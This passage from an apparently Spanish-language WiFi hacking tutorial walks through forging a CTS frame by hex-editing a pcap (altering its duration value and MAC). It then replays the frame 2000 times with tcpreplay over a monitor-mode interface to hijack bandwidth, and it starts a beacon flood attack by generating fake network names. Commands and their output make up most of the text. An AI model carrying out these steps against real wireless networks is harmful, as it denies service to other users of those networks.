 Y reemplazamos estos valores recordando que el hexadecimal que obtuvimos de 30000 se lee al revés osea 30 75, en mi caso la MAC no concuerda con la red por lo que también la modificaré:

![Ghex Edit](http://imgfz.com/i/3x19fw2.png)

Y si lo abrimos con WireShark, podemos comprobar que se realizó el cambio sin errores:

![Comprobación](http://imgfz.com/i/WVA1eC6.png)

Ahora realizaremos el secuestro de ancho de banda (Se recomienda abrir WireShark en wlan0mon o el nombre de su tarjeta en modo monitor, para ver que aplicó los paquetes correctamente):

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ tcpreplay --intf1=wlan0mon --topspeed --loop=2000 ctsframe2.pcap 2>/dev/null
Actual: 2000 packets (100000 bytes) sent in 0.029994 seconds
Rated: 3334000.1 Bps, 26.67 Mbps, 66680.00 pps
Statistics for network device: wlan0mon
	Successful packets:        2000
	Failed packets:            0
	Truncated packets:         0
	Retried packets (ENOBUFS): 0
	Retried packets (EAGAIN):  0
```

| Parámetro | Utilidad |
| :--------: | :-------: |
| --intf1 | Asignar interfaz. |
| --topspeed | Lo más rápido posible. |
| --loop | Cantidad de paquetes que desea emitir. |


Y vemos en WireShark que si emitió correctamente los paquetes:

![Paquetes emitidos](http://imgfz.com/i/yP7LuEp.png)

# Ataque Beacon Flood Mode

Creamos un archivo txt con la siguiente información:

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ for i in $(seq 1 10); do echo "MyNetwork$i" >> redes.txt; done

┌─[root@kali]─[/Documents/WiFi/]
└──╼ cat redes.txt
MyNetwork1
MyNetwork2
MyNetwork3
MyNetwork4
MyNetwork5
MyNetwork6
MyNetwork7
MyNetwork8
MyNetwork9
MyNetwork10
```
